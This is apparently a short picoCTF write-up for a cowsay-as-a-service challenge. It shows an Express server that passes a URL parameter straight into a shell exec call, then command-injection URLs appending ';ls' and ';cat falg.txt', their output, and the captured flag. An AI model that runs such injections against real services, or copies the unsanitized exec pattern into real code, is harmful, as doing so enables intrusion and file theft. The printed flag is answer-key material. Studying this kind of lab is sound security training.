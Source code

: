- They have given a index.js file, the contents of it are like

```bash
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

- Here, exec command is being used to show the output. This is a malicious point where hackers try to inject commands and try command Injection.
- So, i have tried doing `[https://caas.mars.picoctf.net/cowsay/{message};ls](https://caas.mars.picoctf.net/cowsay/%7Bmessage%7D;ls)`

```
 ___________
< {message} >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
**falg.txt**
index.js
node_modules
package.json
public
yarn.lock

```

- Since, we got something that sounded like flag, we will cat that

[caas.mars.picoctf.net](https://caas.mars.picoctf.net/cowsay/%7Bmessage%7D;ls;cat%20falg.txt)

```
 ___________
< {message} >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**
```